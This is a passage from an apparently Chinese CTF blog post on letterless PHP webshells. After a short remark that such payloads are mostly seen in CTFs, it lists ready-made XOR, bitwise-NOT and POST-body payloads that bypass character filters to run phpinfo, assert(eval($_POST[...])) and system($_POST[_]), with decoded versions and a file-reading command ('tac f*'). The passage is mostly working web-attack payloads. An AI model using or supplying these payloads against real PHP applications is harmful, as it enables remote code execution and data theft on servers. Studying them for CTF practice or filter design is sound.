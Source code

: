 其实上面方法的思路大多数都是一样的，就是表示出各个字母进而执行函数。学习过程中也可对PHP的动态性有更深的理解。但如P神所说，这种方法构造出来的webshell由于不包含字母数字，熵值很高，一看就有问题，所以一般也只在CTF中存在，实战一般不存在这种情况。

# 收集一些常用的payload

## 异或payload

```php
1. ?code=${%ff%ff%ff%ff^%a0%b8%ba%ab}{%ff}();&%ff=phpinfo  // ${_GET}{%ff}();&%ff=phpinfo
    
2. ?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%92%90%9C%97%8A%C8%A2%D6%D6);  //?code=assert(eval($_POST[mochu7]));别忘了后面的分号

3. ?cmd=$_ = "!((%)("^"@[[@[\\";$__ = "!+/(("^"~{`{|";$___ = $$__;$_($___[_]);   //

4. ?cmd=$_=[];$__=$_.$_;$_=($_==$__);$__=($_==$_);$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];$___($$____[_]);//?cmd=system($_POST[_]);
```

## 取反payload

```php
1. PS C:\Users\Administrator> php -r "echo urlencode(~'phpinfo');"                                      
%8F%97%8F%96%91%99%90
payload: ?code=(~%8F%97%8F%96%91%99%90)(); //phpinfo();

2. ?code=${%fe%fe%fe%fe^%a1%b9%bb%aa}[_](${%fe%fe%fe%fe^%a1%b9%bb%aa}[__]);&_=assert&__=eval($_POST[%27a%27])
//?code=${_GET}[_](${_GET}[__]);&_=assert&__=eval($_POST['a'])
// assert(eval($_POST['a']))

```

## post传参的payload

```php
//POST传参数的payload,注意拿到burp发包，不要编码，不要用hackbar
cmd=$_=(_/_._)[_];$_%2b%2b;$%FA=$_.$_%2b%2b;$_%2b%2b;$_%2b%2b;$_=_.$%FA.%2b%2b$_.%2b%2b$_;$$_[_]($$_[%FA]);&_=system&%FA=tac f*
//解码就是   
cmd=$_=(_/_._)[_];$_++;$ú=$_.$_++;$_++;$_++;$_=_.$ú.++$_.++$_;$$_[_]($$_[ú]);&_=system&ú=tac f*
    
    
    
//这个payload编码与否都行 cmd=system($_POST[_]);&_=tac f*
cmd=$_%3d[]%3b$__%3d$_.$_%3b$_%3d($_%3d%3d$__)%3b$__%3d($_%3d%3d$_)%3b$___%3d~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__]%3b$____%3d~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__]%3b$___($$____[_])%3b&_=tac f*
//解码就是
cmd=$_=[];$__=$_.$_;$_=($_==$__);$__=($_==$_);$___=~区[$__].~冈[$__].~区[$__].~勺[$__].~皮[$__].~针[$__];$____=~码[$__].~寸[$__].~小[$__].~欠[$__].~立[$__];$___($$____[_]);&_=tac f*

    
```
